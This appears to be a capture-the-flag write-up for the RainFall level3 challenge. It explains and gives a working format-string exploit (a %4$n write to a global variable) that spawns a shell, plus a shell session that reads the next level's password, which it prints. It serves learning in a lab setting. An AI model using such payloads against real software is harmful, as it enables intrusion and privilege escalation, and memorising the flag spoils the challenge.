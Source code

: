 # Walkthrough

## Solution

```
level3@RainFall:~$ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Explanation

### Execution

```
level3@RainFall:~$ ./level3 
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info var
0x0804988c  m

info function
0x080484a4  v
0x0804851a  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

The variable m, located at 0x804988c has to be = to 64 in order to launch the syscall to /bin/sh.  

Direct parameter access allows parameters to be accessed directly by using the dollar sign qualifier.  
For example, %n$d would access the nth parameter and display it as a decimal number.  
This method of direct access eliminates the need to step through memory until the beginning
of the format string is located, since this memory can be accessed directly.  

We use %p or %x to know where our m variable starts in the memory.  
```
level3@RainFall:~$ ./level3 
AAAA %p %p %p %p %p %p %p 
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```
-> The 4th one is pointing at our input (AAAA), we need to overwrite the 4th argument (A = 41).  

If we replace the 4th %p by a %n, we will be able to write where the 4th %p is pointing at (i.e. at 0x41414141).  
But this address doesn't exist, so we get a segfault when we do ./level3 AAAA%p%p%p%n.  


%4$n: the 4th element of the stack is a %n, equivalent to writing %x%x%x%n, except the 3 %x won't print.  
%n writes the number of characters there is before the %n, where it is pointing at.  

If we can find the pointer to "AAAA", we can replace AAAA by a specific address to write to.  
We want to write at address 0x804988c, if we do :  
\x8c\x98\x04\x08%4$n, it will write 4 at 0x804988c, as an address is 4 bytes long.  

> -> we therefore need to print 64 characters before the %n to store 64 at 0x804988c,  
in order to pass the cmp and launch the shell.  

`
The beginning of the format string should consist of the target memory address, 60 bytes of junk,
and then 4th parameter printed as %n (=64, target address (4bytes) + 60 * A + %4$n).
`
### Final command

level3@RainFall:~$ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
